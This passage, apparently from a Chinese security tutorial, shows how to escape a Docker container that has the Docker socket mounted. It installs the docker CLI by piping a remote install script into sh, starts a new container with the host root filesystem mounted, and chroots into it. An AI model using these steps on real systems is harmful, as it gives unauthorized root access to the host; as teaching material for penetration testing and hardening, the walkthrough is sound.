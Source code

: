 ![](assets/1703484795-ca6de7ac8bf40f37162591bb6ed4bbcf.png)

如何逃逸？

我们可以在容器内部创建一个新的容器，因为 Docker Socket 被挂载到了当前容器，所有我们可以将宿主机目录挂载到新的容器内部

**即在容器内创建一个挂载了宿主机根目录的容器，然后将目录切换到根目录即可完成逃逸**

我们在当前容器内部安装 docker 命令行

```php
docker exec -it docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```

接下来的逃逸就十分简单了，我们只需要在容器内部启动一个挂载宿主机根目录的容器即可

```php
docker run -it -v /:/ning ubuntu /bin/bash
```

可以看到我们的 id 值发生变化，说明我们已经进入了一个新的容器内部

![](assets/1703484795-df1521dd3c3e5ad69a4484c9ddf2b986.png)

这里我们切换根目录

```php
chroot /ning
```

![](assets/1703484795-6bca1011c68491580a2d72409ba39c27.png)
